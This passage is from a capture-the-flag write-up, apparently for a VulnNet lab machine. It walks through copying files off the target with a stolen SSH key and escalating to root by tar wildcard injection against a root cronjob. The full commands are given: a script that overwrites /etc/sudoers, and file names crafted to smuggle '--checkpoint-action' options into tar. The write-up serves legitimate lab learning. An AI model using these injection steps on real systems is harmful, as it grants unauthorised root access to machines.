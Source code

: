   ```sh
  scp -i id_rsa server-management@vulnnet.thm:/home/server-management/Documents/* /home/sv/vulnnet
  # transfer using scp from target SSH to attacker machine

  ls -la
  ```

* We do not get anything useful from these files, so we can consider running ```linpeas.sh``` once again for basic enumeration

* We have a cronjob running:

  ```sh
  cat /etc/crontab
  # running /var/opt/backupsrv.sh as root every 30 seconds

  cat /var/opt/backupsrv.sh
  # script to take a backup of the Documents folder
  # uses wildcard character
  ```

* As the script run in cronjob uses a wildcard for running ```tar```, we can exploit this using [tar wildcard injection](https://www.hackingarticles.in/exploiting-wildcard-for-privilege-escalation/) -

  ```sh
  cd /home/server-management/Documents

  echo 'echo "server-management ALL=(root) NOPASSWD: ALL" > /etc/sudoers' > runme.sh
  
  echo "" > "--checkpoint-action=exec=sh runme.sh"
  
  echo "" > --checkpoint=1

  # a minute later, we can run all commands as root
  sudo bash

  # we get root shell
  cat /root/root.txt
  # root flag
  ```
